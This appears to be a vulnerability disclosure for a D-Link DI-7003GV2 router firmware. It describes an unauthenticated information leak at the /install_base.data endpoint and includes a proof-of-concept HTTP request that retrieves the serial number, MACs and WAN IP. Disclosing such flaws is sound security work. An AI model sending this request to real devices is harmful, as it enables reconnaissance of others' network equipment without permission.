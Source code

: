 # Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 R(68125) contains an information disclosure vulnerability in the `/install_base.data` endpoint. This unauthenticated interface allows remote attackers to access sensitive device details, including serial number, MAC addresses, model, firmware version, and WAN IP address.

# Vulnerability details

The processing function for `install_base.data` interface is `sub_419884`.

![图 0](img/c9d89c58b22d85fd174d52469f10a5fa0c770b8a314c2f5c75b12fa8e83711b1.png)  


The function `sub_419884` will outputs sensitive information such as sn code, device model, version, etc.

![图 1](img/d34026d608cba16c6b7de209ad38ab789d6aa82d0d862c338bd1dc858e4b5633.png)  


# Poc

```http
GET /install_base.data HTTP/1.1
Host: 192.168.140.240
Content-Length: 0
Cache-Control: max-age=0
Origin: http://192.168.140.240
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.140.240/login.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```

![图 2](img/883806ec67acaa5c2a873e3d042415e0892ceaa3b1e2fcc1753494b0b88273ab.png)  
